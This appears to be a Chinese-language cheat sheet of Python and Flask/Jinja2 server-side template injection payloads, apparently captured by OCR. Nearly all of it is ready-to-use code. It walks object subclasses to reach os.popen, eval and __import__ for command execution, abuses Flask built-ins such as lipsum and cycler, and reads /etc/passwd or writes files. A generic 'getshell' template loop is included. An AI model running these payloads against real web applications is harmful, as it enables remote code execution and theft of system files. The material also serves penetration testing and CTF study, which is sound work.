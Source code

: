 - 使用`__import__`下的os（python2不行）

```py
可以使用 __import__ 的 os"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()1.2.3.
```

- `__builtins__`下的多个函数

```py
__builtins__下有eval，__import__等的函数，可以利用此来执行命令"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval（"__import__('os').popen('id').read()")"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

- 利用 python2 的 file 类读取文件

```py
在 python3 中 file 类被删除# 读文件
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()
# 写文件
"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')
# python2的str类型不直接从属于属于基类，所以要两次 .__bases__
```

- flask内置函数

```py
Flask内置函数和内置对象可以通过{{self.__dict__._TemplateReference__context.keys()}}查看，然后可以查看一下这几个东西的类型，类可以通过__init__方法跳到os，函数直接用__globals__方法跳到os。（payload一下子就简洁了）{{self.__dict__._TemplateReference__context.keys()}}
#查看内置函数
#函数：lipsum、url_for、get_flashed_messages
#类：cycler、joiner、namespace、config、request、session
{{lipsum.__globals__.os.popen('ls').read()}}
#函数
{{cycler.__init__.__globals__.os.popen('ls').read()}}
#类
```

如果要查config但是过滤了config直接用`self.__dict__`就能找到里面的config

- 通用 getshell

```py
原理就是找到含有 __builtins__ 的类，然后利用{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval（"__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}#读写文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

## 注入思路
